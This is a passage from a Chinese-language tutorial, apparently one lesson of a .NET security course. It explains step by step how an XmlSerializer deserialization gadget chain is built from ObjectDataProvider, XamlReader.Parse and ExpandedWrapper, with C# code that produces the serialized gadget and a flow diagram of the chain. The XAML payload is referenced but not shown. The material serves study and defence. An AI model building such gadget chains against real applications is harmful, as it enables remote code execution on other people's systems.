 当然笔者尝试将 ProjectedProperty1 属性赋值为一个新的实例化对象 ObjectDataProvider 也没有抛出异常， 查看源码可知 ProjectedProperty1 返回的也是一个基类对象 object，所以 ProjectedProperty1 可以设置为. NET 任意类型，而且 ProjectedProperty0 和 ProjectedProperty1 均声明为公共属性，这个点对于 xmlSerializer 反序列化非常重要。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yic97Jvtsh7QATicxDVK0cpnPYVMDuOdSnq1ZA2Oy1bsgxngqGXxnuaiaX6YBrGiaX03YqAouoUj2S78Q/640?wx_fmt=png)

0x05 反序列化
=========

学到了上节加《第 14 课》的知识后，回过头再看下面这段代码就容易理解的多了，笔者尝试沙盘推演下整个思路和打法，首先第一阶段：第 2 和第 3 行分别创建了两个对象 xamlReader 和 objectDataProvider，然后将 xamlReader.Parse 方法赋给 objectDataProvider 实例化后的成员 MethodName，这样就可以调用 XamlReader.Parse(string) 方法，再向方法参数 MethodParameters 添加资源字典字符串，让 Parse 方法解析 ResourcesDictionary 里的 Payload；

```
string xml = File.ReadAllText("Dictionary1.xaml");  //资源文件，存储了payload
XamlReader xamlReader = new XamlReader();
ObjectDataProvider objectDataProvider = new ObjectDataProvider();
objectDataProvider.ObjectInstance = xamlReader;  //成员的值为 新对象xamlReader
objectDataProvider.MethodParameters.Add(xml);
objectDataProvider.MethodName = "Parse";

```

紧接着在第一阶段中 objectDataProvider 对象的成员 ObjectInstance，它存储了 xamlReader 对象， 所以此时的 objectDataProvider 既承载自身对象的值也承载了 xamlReader 对象的数据，那么需要找到一个可以同时承载两个对象的类，并且这个类的属性可以存储被承载两个类的数据集合，而且该类的属性和类都必须声明为公开的，不能是私有或者受保护的。很幸运的是 ExpandedWrapper 可以完成这项艰巨的任务，它可以查询扩展多个类，例如 ExpandedWrapper<XamlReader, ObjectDataProvider>，属性 ExpandedWrapper.ProjectedProperty0 可以存储被扩展的多个类查询数据的集合，在这个例子中就是存储了 objectDataProvider

```
FileStream fileStream = File.OpenWrite(@"demo.txt"); //序列化成功后将数据写入到demo里
ExpandedWrapper<XamlReader, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
expandedWrapper.ProjectedProperty0 = objectDataProvider;
using (TextWriter textWriter = new StreamWriter(fileStream))
{
    XmlSerializer xmlSerializer = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>));
    xmlSerializer.Serialize(textWriter, expandedWrapper);
}

```

因为 XmlSerializer 类在反序列化时只能对公共的属性做序列化处置，所以最后捋一下整体过程：1. 因为 XAML 能存储包含恶意代码的 <ObjectDataProvider> 扩展标记，所以找到了 XamlReader.Parse 方法解析这段 XAML 达到命令执行的效果；2. 为了能调用 XamlReader 类的 Parse 方法，又找到了 ObjectDataProvider 类；3. ObjectDataProvider 类被实例化后除了自身外还承载了 XamlReader 类，所以需要找到 ExpandedWrapper 类扩展包装在一起，并且属性 ProjectedProperty0 可以存储这两个类的查询集合数据；4. 最后 XmlSerializer 类顺利序列化 expandedWrapper。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yic97Jvtsh7QATicxDVK0cpnPWgpYt8sibUAG8bZDI48fNygnn3WjY4QXY2ib96rxl4bQRet5s8RsomeA/640?wx_fmt=png)

```
-> XAML:<ObjectDataProvider> -> XamlReader.Parse(XAML) -> ObjectDataProvider.ObjectInstance=xamlReader 
-> ExpandedWrapper(XamlReader,ObjectDataProvider) -> expandedWrapper.ProjectedProperty0=objectDataProvider
-> xmlSerializer.Serialize(expandedWrapper)

```
